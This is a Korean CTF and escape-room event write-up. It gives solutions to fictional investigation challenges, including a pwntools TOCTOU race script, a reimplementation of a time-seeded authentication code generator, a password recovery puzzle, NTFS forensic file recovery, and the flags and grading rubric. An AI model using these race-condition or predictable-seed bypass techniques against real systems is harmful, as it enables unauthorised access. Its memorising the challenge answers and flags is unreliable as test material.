한 연결에서 `cleanup commit`을 실행하면 검증이 끝날 때까지 입력이 막힙니다. 두 번째 연결에서 출력된 `Snapshot version`을 읽고 대상을 바꾸면 됩니다.

```python
import re
from pwn import context, remote

token = input("CTFd Access Token: ").strip().encode()
prompt = b"cleanup> "
context.log_level = "error"

def connect():
    io = remote("127.0.0.1", 40526)
    io.sendlineafter(b"Team token: ", token)
    io.recvuntil(prompt)
    return io

def command(io, data):
    io.sendline(data)
    return io.recvuntil(prompt)

commit_connection = connect()
operator_connection = connect()

# 첫 연결은 정상 파일의 검증을 시작합니다.
command(commit_connection, b"cleanup load CLN-0007")
commit_connection.sendline(b"cleanup commit")
commit_connection.recvuntil(b"submitted for validation.\n")

# 두 번째 연결은 검증 중 공개되는 version을 읽습니다.
match = None
for _ in range(20):
    result = command(operator_connection, b"cleanup inspect CLN-0007")
    match = re.search(rb"Snapshot version\s*:\s*(\d+)", result)
    if match:
        break

if match is None:
    raise RuntimeError("Snapshot version을 찾지 못했습니다.")

# 같은 version으로 삭제 대상을 보호 영상으로 바꿉니다.
version = match.group(1)
command(operator_connection,
    b"cleanup retarget STG-df1355eb --if-version " + version)

commit_connection.recvuntil(prompt)
print(command(commit_connection, b"cleanup status").decode())
```


> SHA{NO_EVIDENCE_REMAIN}

<details markdown="1">
<summary>힌트 1</summary>

TOCTOU

</details>

<details markdown="1">
<summary>힌트 2(정답 플래그)</summary>

````markdown
### 외주 작업 완료 보고
의뢰받은 CCTV 기록 삭제 작업을 완료했습니다.

의뢰 내용: 의뢰인의 모습이 촬영된 CCTV 기록 삭제
대상 기록: CAM042-20260919004000-Snapshot.png
처리 결과: 보관 서버에서 삭제 완료
작업 비용: 90점

요청하신 대로 작업 방법에 대한 설명은 생략하고, 결과만 전달드립니다.

회수한 인증 문자열
```
SHA{NO_EVIDENCE_REMAIN}
```

다음에도 잘 부탁드립니다.
````

</details>

#### [CCTV 관리실-5] 삭제의 대가


위는 방에 배치되어 있던 [CCTV 관리실-5] 문제 파일로, A~H 교수의 연구실에 대한 정보가 있으며, 우하단의 BCDA를 통해 교수를 적절하게 배치해 4자리 숫자 비밀번호를 알아내 금고를 열어야 한다는 것을 알 수 있습니다.

위 조건을 하나씩 살펴보겠습니다.

1. A 교수와 F 교수의 연구실은 서로 마주보고 있습니다.
2. E 교수의 연구실은 C 교수의 연구실보다 엘리베이터에서 더 멀리 있습니다.
3. D, C, F 교수의 연구실은 같은 쪽에 연달아 있으며, 엘리베이터에서 멀어지는 순서대로 배치되어 있습니다.
4. B 교수는 홀수 호실의 연구실을 사용하며, E 교수의 연구실과 마주보고 있지 않습니다.
5. A 교수의 연구실 양옆에는 E 교수와 H 교수의 연구실이 있습니다.

눈에 띄는 3번 조건부터 확인했을 때, D, C, F의 배치는 그림을 기준으로 다음 4개 중 하나입니다.

```text
1)    2)    3)    4)
DCF?  ?DCF  ????  ????
????  ????  DCF?  ?DCF
```

여기서 1번 조건과 4번 조건을 확인해야 합니다. F의 맞은편에 A가 있으면서, A의 양 옆에 E와 H가 있으려면 F는 101, 104, 105, 108 호실을 사용하지 않아야 합니다. A, C, D, E, F, H의 배치는 다음 4개 중 하나입니다.

```text
1)    2)    3)    4)
DCF?  DCF?  ?EAH  ?HAE
?EAH  ?HAE  DCF?  DCF?
```

2번 조건에 따라서, 1번과 3번 배치를 제외하면 2번과 4번이 남으며, B는 홀수 호실을 사용하므로 4번 배치가 제외됩니다.
2번 배치에서 4번 조건에 따라 B를 101호실에 배치한 결과는 다음과 같습니다.

```text
D C F G
B H A E
```

CCTV 관리자 근무일지 우하단의 `BCDA`로부터, B, C, D, A 교수 연구실의 각 호수에서 일의 자리를 모아 4자리 숫자를 만들면 ‘1783’이 되며, 이것으로 현장의 금고를 열 수 있었습니다.

금고 안에는 다음 메모와 함께 현금(모형 돈)이 들어 있었습니다.


위 메모와 현금은 CCTV 관리자가 누군가의 사주를 받아 기록을 삭제했다는 증거가 됩니다.

> SHA{SHOW_ME_THE_MONEY}

<details markdown="1">
<summary>힌트 1</summary>

```text
D???
B???
```

</details>

<details markdown="1">
<summary>힌트 2(정답)</summary>

1783

</details>

#### 획득할 수 있는 정보

[CCTV 관리실-1] ~ [CCTV 관리실-5]에서 획득할 수 있었던 사건 관련 주요 정보는 다음과 같습니다.

- [CCTV 관리실-2] : 최옥순이 이민성의 교수 연구실에 진입하는 사진
- [CCTV 관리실-3] : 이민성의 사망 사진, 계단에 이민성이 누워 있으며, 계단 아래서 CCTV를 바라보는 강예은과 계단 위의 미상의 인물이 같이 찍혀있음

각 사진의 이름은 타임스탬프로 되어 있기에 이름 또한 중요한 정보이며, [CCTV 관리실-3]에서 얻는 사진이 해당 사건에서 가장 큰 정보라고 생각합니다.

<span id="lecture-room"></span>

### 수사 장소 5 - 전공 강의실


수사 참고자료에서는 이민성 교수의 컴퓨터를 조사하라고 언급합니다. 그러나 교수 연구실의 위치는 특정되지 않으니 먼저 전공 강의실로 이동해 정보를 수집할 것을 권합니다.

원래 이 5번째 수사 장소의 방은 ‘전공 강의실’과 ‘교수 연구실’ 2종류로 구성할 계획이었고 이름도 ‘교수 연구실’로 할 계획이었으나, 교수 연구실(정보기술관 108호) 대여에 실패하기도 했고 ‘교수 연구실’의 방탈출 문제인 [전공 강의실-3]이 별로 중요하지 않았기에 [전공 강의실-3] 문제를 수사팀이 해결하게 되었습니다.

#### [전공 강의실-1] 지정 좌석

[전공 강의실-1] 문제는 다른 방탈출 문제와는 달리 강의실 하나를 통째로 사용하는 방탈출 문제였습니다.
참가자는 방 진입 시 먼저 아래의 문서들과 메모 카드를 발견하게 됩니다.


첫 번째로, 교직원 연구공간 조회 시스템은 다음 문제인 [전공 강의실-2]로 유도하기 위한 문서입니다. 이민성 교수의 연구실 위치를 조회하는 프로그램이 든 압축 파일을 QR 코드로 제공하며, 해당 압축 파일은 비밀번호가 걸려 있었습니다. 두 번째는 [전공 강의실-1] 문제에 사용할 출석부입니다. 마지막은 참가자가 자유롭게 메모를 하며 문제를 해결할 수 있도록 배치한 메모 카드입니다.

[전공 강의실-1] 문제를 먼저 해결해 4자리 숫자 비밀번호를 획득한 후에 [전공 강의실-2] 문제 파일의 압축을 해제하고, 그 안에 있던 [전공 강의실-1] 문제의 플래그를 확인하는 것이 목표입니다.

##### 문제 설명

현장에는 다음과 같은 이름표가 자리에 붙여져 있었습니다. 아래는 이름표의 일부입니다.


위 이름들은 모두 출석부에 있으며 강의실의 몇몇 자리에 붙여져 있었습니다.
이름의 자리 배치는 다음과 같습니다.


메모 카드는 학생별 자리를 적으라는 의도로 배치해 둔 카드였습니다. 하지만 이름만으로는 문제를 해결할 수 없습니다.

출석부에서 학번의 연도 부분이 하이라이트된 것을 확인할 수 있습니다. 각 학생의 학번도 자리 배치에 표시해 보면 다음과 같습니다.


0, 3, 8, 7이라는 숫자가 보입니다.
이것을 출석부에서 하이라이트된 순서로 배열해야 합니다.

22학번 - 7, 23학번 - 3, 24학번 - 8, 25학번 - 0의 숫자는 23, 24, 22, 25학번 순으로 배열하면 ‘3870’이며, 이 4자리 숫자로 [전공 강의실-2] 문제 파일의 압축을 해제할 수 있었습니다.

참가자 중 몇몇은 비밀번호가 4자리 숫자라는 것을 이용해 브루트포스로 압축을 해제하는 경우도 있었는데 그냥 현장에 4자리 숫자 자물쇠를 두고 거기에 [전공 강의실-2] 문제 파일 QR 코드를 두는 것이 나았을 수도 있겠다는 생각이 듭니다.

> SHA{SEAT_PATTERN}

<details markdown="1">
<summary>힌트 1</summary>

학번 년도로 연결

</details>

<details markdown="1">
<summary>힌트 2</summary>

하이라이트 된 순서로 배열

</details>

<details markdown="1">
<summary>힌트 3(정답)</summary>

3870

</details>

#### [전공 강의실-2] 교내 시설정보 조회

[전공 강의실-1] 문제를 해결하고 얻은 압축 파일에는 4개의 파일이 있었습니다.


1. `auth_checker` - 문제 파일입니다.
2. `db_viewer` - 교직원 연구공간 조회 DB를 다루는 바이너리입니다. `auth_checker` 인증에 성공하면 자동으로 실행되지만, 참가자에게 지급한 파일은 `facility.db` 파일이 없었기에 실행할 수 없었습니다.
3. `FLAG.txt` - [전공 강의실-1] 문제의 플래그입니다.
4. `README.txt` - “BETA 버전에서는 DB가 제공되지 않는다”는 말과 함께 원격 접속 정보를 줍니다.

참가자는 README.txt를 확인해 원격 접속 정보를 얻고, `auth_checker`에서 분석한 내용을 바탕으로 인증한 후 이민성의 교수 연구실을 알아내야 합니다.

먼저 `auth_checker`를 실행합니다.


전형적인 입력 체커 리버싱 문제입니다. 파일을 역어셈블러인 Ghidra로 열어 분석합니다.

##### 파일 분석

`main` 함수의 최하단에 다음과 같은 내용이 있습니다.


`local_148`은 `0x00401136`에서의 사용자의 입력입니다. 입력받은 문자열의 길이가 64인지, `abStack_1e8`과 동일한 문자열인지 비교한 후 일치하면 플래그를 출력하고 `db_viewer`를 실행합니다.

`local_148`은 개행 문자를 제거하는 것 말고는 다른 조작이 되지 않기 때문에, `abStack_1e8`의 생성과정을 확인해봐야 합니다.


입력값의 개행을 제거한 후에는 현재 시간을 난수 seed로 설정하는 부분이 있습니다.


그 후에는 base64에 사용되는 문자를 rand()를 통해 27개 뽑아 배열에 하나씩 저장합니다.


이후의 2중 반복문이 있는데, 바깥의 반복문은 안의 반복문을 3회 실행하기 위한 코드이며, 안의 반복문은 rand()를 사용해 배열을 뒤에서부터 섞는 Fisher-Yates 셔플을 실행하는 코드입니다. 이 셔플에 의해 base64의 문자 배열이 섞이게 됩니다.


이후의 내용은 그저 섞인 base64 문자 배열을 사용해 base64 인코딩을 하는 코드입니다. 바깥의 반복문이 3번 진행되며, 초기에 길이 27의 문자열을 선택했으므로 바깥의 반복문이 한 번 돌 때마다 27 → 36 → 48 → 64로 길이가 늘어납니다. 64는 바이너리가 받는 문자열 길이의 조건과 일치합니다.

따라서 익스플로잇 시에 서버와 같은 시각을 난수 시드로 사용하고, 동일한 rand() 호출 순서를 재현해 같은 인증 코드를 생성해야 합니다.

##### 익스플로잇

```python
from pwn import *
import ctypes
import time

base64_set=b"ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"
libc=ctypes.CDLL("libc.so.6")

def encode(data, table):
    result=b""

    for i in range(0, len(data), 3):
        block=int.from_bytes(data[i:i+3], "big")
        result+=bytes(table[(block >> shift) & 0x3f] for shift in (18, 12, 6, 0))

    return result

def make_code():
    libc.srand(int(time.time()))

    data=bytes(base64_set[libc.rand() & 0x3f] for _ in range(27))
    table=bytearray(base64_set)

    for _ in range(3):
        for i in range(63, 0, -1):
            j=libc.rand() % (i + 1)
            table[i], table[j]=table[j], table[i]

        data=encode(data, table)

    return data

io=remote("127.0.0.1", 40603)
auth_code=make_code()

print(f"[인증 코드] : {auth_code.decode()}\n")

io.sendlineafter(b"> ", auth_code)
io.interactive()
```


이민성 교수의 이름을 조회하면 연구실이 ‘정보기술관 108호’라는 것을 알 수 있습니다.


다만, 위에서 언급했듯 정보기술관 108호는 대여하지 못했기 때문에 수사팀이 문제 풀이를 진행하게 되었습니다.

> SHA{LABORATORY_LOCATED_AT}

<details markdown="1">
<summary>힌트 1</summary>

srand(time(NULL))

</details>

<details markdown="1">
<summary>힌트 2(교수 연구실 위치 및 플래그)</summary>

````markdown
### 외주 작업 완료 보고
의뢰받은 교내 시설정보 조회 작업을 완료했습니다.

의뢰 내용: 인증 문자열 회수 및 이민성 교수의 연구실 위치 확인
대상 시스템: 교내 시설정보 조회 시스템
처리 결과: 이민성 교수의 연구실 위치 확인
작업 비용: 70점

요청하신 대로 작업 방법에 대한 설명은 생략하고, 결과만 전달드립니다.

회수한 인증 문자열
```
SHA{LABORATORY_LOCATED_AT}
```

이민성 교수의 연구실은 정보기술관 108호로 적혀있었으나, **즉시 이동하지 말고 다음 의뢰의 내용을 확인하라더군요.**

다음에도 잘 부탁드립니다.
````

</details>

#### [전공 강의실-3] 교수의 컴퓨터

[전공 강의실-3]은 이민성 교수가 사용하던 컴퓨터의 비밀번호를 알아내는 문제입니다. 실제 PC 대신 암호가 설정된 압축 파일(`이민성_PC.7z`)이 제공되며, 찾아낸 비밀번호로 압축을 해제하면 분석 대상인 디스크 이미지 파일을 얻을 수 있습니다.

따라서 참가자에게는 다음 파일들이 주어집니다.


`enc 2.zip`, `final.zip` 파일은 비밀번호가 걸려 있으며, `enc 1.zip`은 바로 압축을 해제할 수 있습니다.

##### enc 1.zip


순서대로 `ref.png`, `1.png`입니다. 주기율표를 참고해 주어진 문제를 풀어야 합니다.
`1.png`의 오른쪽을 보면, (1)~(4)에 들어갈 값을 알아내 이어붙여야 한다는 것을 추측할 수 있습니다.

---

주기율표가 주어졌으니 원소와 관련해서 생각해 볼 때, (3)에서 `8=O`라는 정보가 주어져 있으며 실제로 산소(O)의 원소 번호는 8번입니다. 이를 토대로  원소 번호가 34, 4, 54인 원소를 찾아보면 다음과 같습니다.

- 34 : Selenium → Se
- 4 : Beryllium → Be
- 54 : Xenon → Xe

(1), (2), (4)에 들어갈 것은 각각 한 자리 알파벳, ‘S’, ‘B’, ‘X’ 이며 (3)은 주어진 대로 ‘O’ 입니다.
이것을 이어붙인 ‘SBOX’라는 문자열로 `enc 2.zip`의 압축을 해제할 수 있습니다.

##### enc 2.zip


위는 `enc 2.zip`의 압축을 해제하고 얻은 `2.png`입니다. `1.png`에서의 패턴과 동일해 보입니다. ‘(5)+e’에 해당하는 원소를 알아내기 위해 70번 대의 원소를 가져와 보겠습니다.

- 70 : Yb
- 71 : Lu
- 72 : Hf
- 73 : Ta
- 74 : W
- 75 : Re
- 76 : Os
- 77 : Ir
- 78 : Pt
- 79 : Au

70번 대의 원소 기호 중, 두 번째 문자가 ‘e’인 것은 75번 Re(Rhenium)뿐이며, 이를 통해 ‘(5)=R’, ‘■=5’임을 알 수 있습니다. 따라서 이번 문자열은 ‘XOR5B’이며 해당 문자열로 `final.zip`의 압축을 해제할 수 있습니다.

##### final.zip


위는 `final.png`이며, Encrypted PW로부터 PASSWORD를 복원해야 합니다.

앞의 두 문제에서 얻은 문자열을 되짚어 보겠습니다.

- Encrypt 1(Rijndael): SBOX
- Encrypt 2: XOR5B

PASSWORD를 복원하기 위해서는 주어진 `7267D49CA65F5C`에 역순으로 적용해야 합니다. 각 바이트를 0x5B와 XOR한 후에 InvSBox를 적용합니다.

`7267D49CA65F5C` → `29 3C 8F C7 FD 04 07` → `4C 6D 73 31 21 30 38`

마지막 상태에서, 각 바이트를 ASCII 문자로 변환하면 ‘Lms1!08’이 되며, 이 문자열로 주어지는 `이민성_PC.7z`의 압축을 해제할 수 있습니다.


해당 파일을 포렌식 분석 도구를 사용해 분석하면, `[root]\Users\이민성\Desktop`에서 `todo.txt` 파일을 발견할 수 있습니다.


```
오전 9:13 2026-09-18

이혼 신고서[전공 강의실-3 FLAG] 제출 - 9.21
이태규 비리 증거[전공 강의실-5] 종합/제출 - 9.21
  - **보존에 주의**
논문 검토 - ~9.23
  - 원본[전공 강의실-4] 폐기할 것
```

이 `todo.txt`는 [전공 강의실-3]의 플래그 위치와 [전공 강의실-4], [전공 강의실-5]의 문제에 대한 정보를 주는 파일입니다. `[root]\Users\이민성\Documents`로 이동하면 두 파일을 발견할 수 있습니다.


`이혼신고서.docx`를 꺼내 확인하면 하단에 있는 [전공 강의실-3]의 플래그를 확인할 수 있습니다.


방탈출 문제에서의 추론부터 비밀번호 복원, 디스크 이미지 열람까지 한 호흡이 긴 문제였다고 생각합니다.

> SHA{BROKEN_MARRIAGE}

<details markdown="1">
<summary>힌트 1</summary>

S+e ⇒ Se ⇒ Selenium(34)

</details>

<details markdown="1">
<summary>힌트 2</summary>

SBOX, XOR5B

</details>

<details markdown="1">
<summary>힌트 3(복원한 파일)</summary>

````markdown
### 외주 작업 완료 보고
의뢰받은 이민성 교수의 컴퓨터 조사 작업을 완료했습니다.

의뢰 내용: 잠긴 디스크 파일을 해제하고 사건 관련 문서 확인
대상 자료: 이민성_PC.7z
처리 결과: 디스크 잠금 해제 및 이혼신고서 확인 완료
작업 비용: 70점

요청하신 대로 작업 방법에 대한 설명은 생략하고, 결과만 전달드립니다.

확보한 파일은 아래 링크에 업로드해 두었습니다.
```
<파일 드라이브 링크>
```

혹시 몰라 파일의 생성/수정/삭제 시각도 첨부해 드립니다.
| 파일                      | 생성 시각               | 최종 수정 시각            | 삭제 시각               | 삭제 방식  |
| ----------------------- | ------------------- | ------------------- | ------------------- | ------ |
| `이혼신고서.docx`            | 2026-09-18 08:47:20 | 2026-09-18 08:49:57 | 삭제하지 않음             | —      |
| `todo.txt`              | 2026-09-18 09:13:03 | 2026-09-18 09:13:56 | 삭제하지 않음             | —      |

`todo.txt`에 따르면, 앞으로 2개의 파일을 추가로 분석해야 할 듯합니다.
추가금만 입금해 주신다면 바로 진행하겠습니다.

다음에도 잘 부탁드립니다.
````

</details>

#### [전공 강의실-4] '제출용' 논문

`todo.txt`의 내용에 따라 논문을 찾아보겠습니다.
`이혼신고서.docx`가 있던 `[root]\Users\이민성\Documents`에 `관측_잔향장의_위상_응집_최종.docx` 파일이 있습니다.


이민성 교수가 작성한 것으로 보이는 논문입니다. 하지만 `todo.txt`에 있던 “원본[전공 강의실-4] 폐기할 것”이라는 말에 주목해야 합니다.

$RECYCLE.BIN을 확인하면 버려진 docx 파일이 있습니다.


$I로 시작하는 파일은 메타데이터 파일이며, $R로 시작하는 파일이 폐기된 docx 파일입니다.
이 파일을 꺼내보겠습니다.


아까와는 다르게 논문 저자란에 대학원생 오세린의 이름이 있습니다.
이민성 교수가 오세린이 작성한 논문에서 오세린의 이름을 삭제하고 자신의 이름만 남긴 것입니다.

문서의 최하단에는 다음과 같이 [전공 강의실-4]의 플래그가 있습니다.


> SHA{STOLEN_CREDIT}

<details markdown="1">
<summary>힌트 1</summary>

$Recycle.Bin

</details>

<details markdown="1">
<summary>힌트 2</summary>

$RHHFC56.docx

</details>

<details markdown="1">
<summary>힌트 3(복원한 파일)</summary>

````markdown
### 외주 작업 완료 보고
의뢰받은 디스크 내 논문 확인을 완료했습니다.

의뢰 내용: 논문 복구 및 확인
대상 자료: 관측_잔향장의_위상_응집.docx
처리 결과: 논문 2편 복구
작업 비용: 70점

논문이 2편 발견되었으며, 각 파일명은 `관측_잔향장의_위상_응집`, `관측_잔향장의_위상_응집_최종`이더군요.
아래 링크에 파일을 첨부해 두었습니다.
```
<파일 드라이브 링크>
```

혹시 몰라 파일의 생성/수정/삭제 시각도 첨부해 드립니다.
| 파일                      | 생성 시각               | 최종 수정 시각            | 삭제 시각               | 삭제 방식  |
| ----------------------- | ------------------- | ------------------- | ------------------- | ------ |
| `관측_잔향장의_위상_응집.docx`    | 2026-09-16 09:30:24 | 2026-09-16 09:30:24 | 2026-09-16 14:11:50 | 휴지통 이동 |
| `관측_잔향장의_위상_응집_최종.docx` | 2026-09-16 14:10:30 | 2026-09-16 14:11:28 | 삭제하지 않음             | —      |

다음에도 잘 부탁드립니다.

````

</details>

#### [전공 강의실-5] 삭제된 증거

`todo.txt`에는 `이태규 비리 증거`라는 이름만 있고 파일은 보이지 않습니다. 일반 파일 목록에서 사라졌더라도 NTFS가 작업 내용을 기록하는 `$LogFile`에는 삭제 흔적이 남아 있을 수 있습니다.

FTK Imager에서 `File → Add Evidence Item → Image File`을 선택하고 `이민성_PC.raw`를 불러옵니다. 왼쪽 트리에서 NTFS 파티션의 루트 디렉터리를 열면 `$MFT`와 `$LogFile`을 찾을 수 있습니다. 두 파일을 각각 우클릭하고 `Export Files`를 눌러 추출합니다.

`$MFT`에는 파일 이름과 디렉터리 구조가, `$LogFile`에는 파일 생성·수정·삭제와 같은 NTFS 작업이 기록됩니다. 따라서 두 파일을 함께 보면 삭제된 파일의 이름뿐 아니라 원래 경로도 복원할 수 있습니다.


NTFS Log Tracker를 실행하고 추출한 `$LogFile`과 `$MFT` 파일의 경로를 지정한 뒤 `Parse`를 누릅니다. `$UsnJrnl:$J`는 이번 분석에 필요하지 않으므로 비워둡니다.

스크롤을 내리다 보면 `이태규_비리_증거.tar.gz`라는 파일을 발견할 수 있습니다.


파일의 MFT 레코드는 해제되었지만 실제 내용은 미할당 영역에 남아 있습니다. 확장자가 `.tar.gz`임을 확인했으므로 Gzip 시그니처를 검색합니다.


다음 GZIP 헤더가 시작되는 위치를 현재 헤더의 끝으로 보고 두 오프셋의 차이만큼 추출했습니다. 추출한 파일은 `tar -tzf`로 정상적인 압축 파일인지 확인할 수 있습니다.


`이태규_비리_증거.tar.gz`를 성공적으로 복구했습니다.

---

PhotoRec을 사용한다면 `File Opt`에서 `gz`만 활성화한 뒤 NTFS 파티션의 `Free` 영역을 복구할 수 있습니다.

복구된 파일은 원래 이름이 사라지므로 `recup_dir.*`에 생성된 `.gz` 파일을 열어 `_이태규_비리_증거` 디렉터리가 들어 있는 파일을 찾습니다.


다만, 파일의 메타데이터를 확인하지 못한다면 수사보고서 작성 시 곤란할 수 있습니다…

> SHA{DELETED_EVIDENCE}

<details markdown="1">
<summary>힌트 1</summary>

File Carving

</details>

<details markdown="1">
<summary>힌트 2</summary>

PhotoRec

</details>

<details markdown="1">
<summary>힌트 3(복원한 파일)</summary>

````markdown
### 외주 작업 완료 보고
의뢰받은 삭제된 비리 증거 복구 작업을 완료했습니다.

의뢰 내용: 디스크에 남은 흔적에서 이태규의 비리 증거 복구
대상 자료: 이태규_비리_증거
처리 결과: 연구비 집행내역, 비품등록현황 및 업체 메일 복구 완료
작업 비용: 70점

요청하신 대로 작업 방법에 대한 설명은 생략하고, 결과만 전달드립니다.

복구한 파일은 아래 링크에 업로드해 두었습니다.
```
<파일 드라이브 링크>
```

혹시 몰라 파일의 생성/수정/삭제 시각도 첨부해 드립니다.
| 파일                      | 생성 시각               | 최종 수정 시각            | 삭제 시각               | 삭제 방식  |
| ----------------------- | ------------------- | ------------------- | ------------------- | ------ |
| `이태규_비리_증거.tar.gz`      | 2026-09-18 15:28:25 | 2026-09-18 15:32:58 | 2026-09-18 23:23:04 | 영구 삭제  |

다음에도 잘 부탁드립니다.
````

</details>

#### 획득할 수 있는 정보

[전공 강의실-1] ~ [전공 강의실-5]에서 획득할 수 있었던 사건 관련 주요 정보는 다음과 같습니다.

- [전공 강의실-3] : 이민성이 강예은과 이혼하려 했다는 것
- [전공 강의실-4] : 이민성이 오세린의 논문에서 오세린의 이름을 빼고 제출하려 한 것
- [전공 강의실-5] : 이태규가 횡령을 했었고, 그 증거가 이민성에게 있었다는 것

추가로, `이태규_비리_증거.tar.gz`가 완전히 삭제되어 있었다는 점과 각 파일의 생성/수정/삭제 시각도 사건에 대한 정보가 될 수 있습니다.
아래 [수사 보고서의 정보 수집 항목](#정보-수집)에서 정리합니다.

<span id="investigation-report"></span>

## 수사보고서


수사보고서의 항목은 다음과 같습니다.

1. 피해자와 용의자 6인의 생년월일, 직업, 피해자와의 관계

   - 정보 획득 출처 기재 불필요

2. 용의자 6인의 살해 동기 추정

3. 용의자 6인의 살해 의지 표상

4. 용의자 6인의 알리바이 주장과 알리바이 성립 여부 및 증거

   용의자의 주장과 알리바이가 상이할 경우 실제 알리바이에 대한 추가 서술 필요

5. 사건 발생 당일의 23~24시의 타임라인 재구성

   - 피해자와 범인으로 판단한 인물이 한 행위에 대해 작성
   - 초 단위로 작성이 가능한 경우 작성

수사 보고서 양식의 최상단에 다음과 같이 감점 조건 등을 제시했습니다.

1. 다음의 기준에 따라 감점될 수 있습니다.

   1. 추론 내용이 제시한 증거와 맞지 않을 때
   2. 추론 내용에 대한 증거를 제시할 수 있는데도 제시하지 않았을 때
   3. 추론 내용이 틀렸다는 것을 증명할 증거가 명백히 존재할 때
   4. 제시한 증거의 출처를 작성하지 않았을 때

2. 등장인물은 이름 또는 얼굴로만 판별하며, 그 외의 판별 수단은 인정하지 않습니다. 정보 내에서의 인물과 사건 관련 인물을 연결하는 근거가 미흡할 경우 감점될 수 있습니다.

   - 근거를 확인할 경우 어떤 정보를 통해 확인했는지도 첨부해야 합니다.

3. 근거는 사진이나 스크린샷을 이용해 작성해도 되나, 문제 번호 및 얻은 정보만 기입하셔도 괜찮습니다.

### 정보 수집

메인 의뢰의 28개 문제에서 얻을 수 있는 정보를 종합하면 다음과 같습니다.

| 문제 번호 | 정보 | 내용 |
| --- | --- | --- |
| [수사 개요-1] | 수사 의뢰서.pdf | 피해자(이민성) 정보 |
| [수사 개요-2] | 수사 참고자료.pdf | 용의자 6인(민재훈, 오세린, 윤하진, 이태규, 강예은, 최옥순)의 이름, 직업, 피해자와의 관계<br>각 수사 공간에서 수집해야 할 정보 |
| [수사 자료실-2] | 용의자 6인의 피의자 신문조서 | 민재훈의 원한, 알리바이 주장<br>오세린의 원한, 알리바이 주장<br>윤하진의 원한, 알리바이 주장<br>이태규의 알리바이 주장<br>강예은의 알리바이 및 이민성의 마지막 행동 주장<br>최옥순의 진술 |
| [수사 자료실-3] | 최옥순의 범죄 경력 | 최옥순이 절도를 저지른 적이 있다는 사실 |
| [수사 자료실-4] | 신고처리내역서 | 민재훈이 사건 발생 시각, 주취소란을 피운 이후 집으로 돌아간 내용 |
| [수사 자료실-5] | 참고인 진술조서 | 정혜진의 이민성의 평소 행실에 대한 진술<br>강도윤의 윤하진의 원한 관련 진술 뒷받침 및 윤하진이 이민성을 죽이고 싶다고 한 것에 대한 진술 |
| [사이버수사대-2] | 채팅 데이터 | 민재훈이 수업시간에 이민성에게 모욕을 당한 후, 친구들에게 이민성을 죽이고 싶다고 말하는 내용<br>오세린이 윤하진과 자신의 논문에 대해 말하는 내용 |
| [사이버수사대-4] | 구매 기록 | 강예은이 고가의 선물을 이태규에게 전달한 기록<br>강예은이 세제를 이태규에게 전달한 기록 |
| [사이버수사대-5] | 윤하진의 채팅 기록 | 윤하진이 사건 발생 시각 전후로 현장 중고거래를 진행한 채팅 |
| [사이버수사대-5] | 최옥순의 판매 기록 | 최옥순이 이태규, 이민성의 물건을 가져다 판매한 기록 |
| [학교 전산망-4] | 이민성의 출입 기록 | 사건 발생 시각 이민성이 학교에 들어와 나가지 않은 기록 |
| [학교 전산망-4] | 민재훈의 출입 기록 | 사건 발생 시각 민재훈의 출입 기록 없음 |
| [학교 전산망-4] | 오세린의 출입 기록 | 사건 발생 시각 오세린이 도서관에 있었다는 것을 증명할 출입 기록 |
| [학교 전산망-4] | 윤하진의 출입 기록 | 사건 발생 시각 윤하진의 출입 기록 없음 |
| [학교 전산망-4] | 이태규의 출입 기록 | 사건 발생 전 이태규가 건물에 들어와 사건 발생 후에 나간 기록<br>이태규가 이민성의 교수 연구실에 출입한 기록 |
| [학교 전산망-4] | 최옥순의 출입 기록 | 사건 발생 전 최옥순이 건물에서 나간 기록<br>최옥순이 이민성의 교수 연구실에 출입한 기록 |
| [학교 전산망-5] | 이민성과 윤하진의 메일 | 이민성이 윤하진에게 잡무를 시키는 내용의 메일 |
| [학교 전산망-5] | 이태규와 강예은의 메일 | 이태규가 강예은의 선물에 감사를 표하는 내용의 메일 |
| [CCTV 관리실-2] | 최옥순의 사진 | 사건 발생일 23시 05분 경에 찍힌 최옥순이 이민성의 교수 연구실에 진입하려 하는 사진 |
| [CCTV 관리실-3] | 강예은과 사망한 이민성의 사진 | 사건 발생일 23시 19분 경에 찍힌 계단 중간에서 사망한 이민성과 계단 아래의 강예은, 계단 위의 신원 미상의 인물의 사진 |
| [CCTV 관리실-5] | CCTV 관리자의 메모 | CCTV 관리자가 누군가의 사주를 받아 CCTV 기록을 삭제했다는 내용의 메모 |
| [전공 강의실-3] | 이혼 신고서 | 이민성이 강예은과 이혼하려 했음을 나타내는 이혼 신고서 |
| [전공 강의실-4] | 두 개의 논문 | 이민성이 오세린에게서 논문을 받아 오세린의 이름만 지워 제출하려 했음을 나타내는 증거 |
| [전공 강의실-5] | 이태규의 비리 증거 | 사건 발생일 23시 23분 경에 삭제된 `이태규_비리_증거.tar.gz` 파일<br>이태규의 횡령에 대한 증거가 들어 있음 |

### 수사보고서 채점 기준


양식에는 크게 5개의 문항이 있었으며, 각각의 배점은 180, 900, 360, 900, 660점으로 총 3000점 만점입니다.
양식에서 제시한 감점 기준에서, 각각의 감점 비율은 다음과 같습니다.

1. 추론 내용이 제시한 증거와 맞지 않을 때(-70%)
2. 추론 내용에 대한 증거를 제시할 수 있는데도 제시하지 않았을 때(-70%)
3. 추론 내용이 틀렸다는 것을 증명할 증거가 명백히 존재할 때(-100%)
4. 제시한 증거의 출처를 작성하지 않았을 때(-30%)

메일을 근거로서 제시할 경우, 메일에 표시된 ID가 사건 관련 인물의 것인지를 판단할 수 있는 또 다른 근거를 같이 제시해야만 했습니다. 이를 만족하지 못했을 경우, 근거 미흡으로 배점의 35%를 감점하도록 했습니다.

또한 다음을 허용했습니다.

1. 참가자가 수집할 수 있는 정보를 기준으로 충분히 있을 수 있는 추론
2. 근거는 사진, 스크린샷, 문제 번호/획득 정보 서술의 형태로 제시

각 문항에 대한 상세 채점 기준을 알아보겠습니다.

#### 1. 인적사항


피해자의 인적사항은 `수사 의뢰서.pdf`에서, 용의자 6인의 인적사항은 `수사 참고자료.pdf` 및 `피의자 신문조서`에서 얻을 수 있었습니다.

피해자의 생년월일, 직업에 각 15점의 배점을 할당했고, 용의자의 생년월일, 직업에 각 7점의 배점, 피해자와의 관계에 11점의 배점을 할당했습니다.

#### 2. 살해 동기 추정


살해 동기 추정은 용의자 한 명당 150점씩, 총 900점이 배정되었습니다.

각 용의자의 살해 동기는 다음과 같습니다.

1. 민재훈 : 수업시간에 모욕을 당함
2. 오세린 : 이민성이 논문에서 오세린의 이름을 뺌
3. 윤하진 : 이민성이 윤하진에게 잡무를 시킴
